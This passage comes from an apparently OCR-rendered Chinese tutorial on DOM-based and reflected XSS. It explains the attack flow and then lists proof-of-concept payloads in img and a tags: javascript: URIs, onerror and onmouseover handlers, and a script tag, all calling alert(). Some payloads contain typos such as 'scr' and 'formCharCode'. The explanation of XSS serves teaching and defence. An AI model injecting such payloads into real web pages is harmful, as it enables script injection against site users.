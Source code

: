 攻击方式
用户请求一个经过专门设计的 URL，它由攻击者提供，而且其中包含 XSS 代码。服务器的响应不会以任何形式包含攻击者的脚本，当用户的浏览器处理这个响应时，DOM 对象就会处理 XSS 代码，导致存在 XSS 漏洞。

它的流程是这样的： 1.攻击者寻找具有漏洞的网站 2.攻击者给用户发了一个带有恶意字符串的链接 3.用户点击了该链接 4.服务器返回 HTML 文档，但是该文档此时不包含那个恶意字符串 5.客户端执行了该 HTML 文档里的脚本，然后把恶意脚本植入了页面 6.客服端执行了植入的恶意脚本，XSS 攻击就发生了

#### 反射型 XSS 与 DOM 型区别：

1、反射型 XSS 攻击中，服务器在返回 HTML 文档的时候，就已经包含了恶意的脚本;

2、DOM 型 ⅩSS 攻击中，服务器在返回 HTML 文档的时候，是不包含恶意脚本的；恶意脚本是在其执行了非恶意脚本后，被注入到文档里的

通过 JS 脚本对对文档对象进行编辑，从而修改页面的元素。也就是说，客户端的脚本程序可以 DOM 动态修改页面的内容，从客户端获取 DOM 中的数据并在本地执行。由于 DOM 是在客户端修改节点的，所以基于 DOM 型的 XSS 漏洞不需要与服务器端交互，它只发生在客户端处理数据的阶段。

### 七、常见标签

img 标签

#### 利用方式 1

```
<img src=javascript:alert("xss")>

<img scr=javascript:alert(String.formCharCode(88,83,83))>

<img scr="URL"style='Xss:expression(alert(/xss));'
```

#### XSS 利用方式 2

```
<img src="x" onerror=alert(1)>

<img src="1" onerror=eval("alert('xss')")>
```

XSS 利用方式 3

```
<img src=1 onmouseover=alert('xss')>
```

<a>标签

#### 标准格式

<a href="https://www.baidu.com">baidu</a>
XSS 利用方式 1
<a href="javascript:alert('xss')">aa</a>

<a href=javascript:eval(alert('xss'))>aa</a>

<a href="javascript:aaa"onmouseover="alert(/xss/)">aa</a>

XSS 利用方式 2

<script>alert('xss')</script>
